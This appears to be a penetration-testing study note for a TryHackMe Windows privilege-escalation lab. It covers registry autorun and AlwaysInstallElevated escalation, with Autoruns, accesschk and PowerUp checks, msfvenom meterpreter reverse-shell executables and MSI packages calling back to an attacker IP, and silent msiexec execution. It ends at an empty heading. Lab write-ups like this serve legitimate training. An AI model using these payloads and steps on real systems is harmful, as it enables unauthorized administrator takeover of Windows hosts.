

# Escalation path: Registry

### Overview of TryHackMe Labs

Windows PrivEsc Lab - https://tryhackme.com/room/windowsprivescarena

Built with lpeworkshop - https://github.com/sagishahar/lpeworkshop

### Overview of Autoruns

Check autorun targets with Sysinternals `Autoruns64.exe`. This opens a GUI showing all Autorun entries in the
registry

The Logon tab shows programs that autorun at log on


We can check the permissions on any interesting autoruns with Sysinternals `accesschk64.exe`. We're looking 
for executables with `RW Everyone FILE_ALL_ACCESS` 

`C:\Path\To\Sysinternals\Accesschk\accesschk64.exe -vwu "C:\Program Files\Autorun Program"`


We can also use PowerUp's `Invoke-AllChecks` to find modifiable registry autoruns

```
C:\>powershell -ep bypass
PS C:\>. .\PowerUp.ps1
PS C:\>Invoke-AllChecks
```


### Escalation via Autorun

Create a meterpreter shell with msfvenom

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o program.exe`

Run `msfconsole` and start a multi/handler, then start a python HTTP server to upload the file onto the target

Use Internet Explorer to download and save the program.exe file, replacing the existing one in 
`C:\Program Files\Autorun Program`. If you try to move and replace the file it will trigger an Administrator 
log in, using IE to save the file as a replacement does not.

Disconnect from the RDP session then log in with the Administrator account, TCM. This will trigger the 
autorun, giving us an Administrator meterpreter shell

### AlwaysInstallElevated Overview and Escalation

Check the registry keys to see if AlwaysInstallElevated is enabled

```
C:\>reg query HKLM\Software\Policies\Microsoft\Windows\Installer

C:\>reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```



0x1 means the value is true, AlwaysInstallElevated is enabled.

PowerUp Invoke-AllChecks will check for the registry keys and provides a function `Write-UserAddMSI` to 
generate a malicious UserAdd.msi file that can be used to create an Administrator user

Another option is to use msfvenom to generate a malicious .msi file that can excecute system commands or just 
create a reverse shell

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f msi -o setup.msi`

Upload it to the target, start a multi/handler listener, then run it with msiexec

`msiexec /quiet /qn /i C:\Path\To\File\setup.msi`

From a low privileged meterpreter shell we can use the `exploit/windows/local/always_install_elevated` module
to elevate privileges in an existing session

### Overview of regsvc ACL


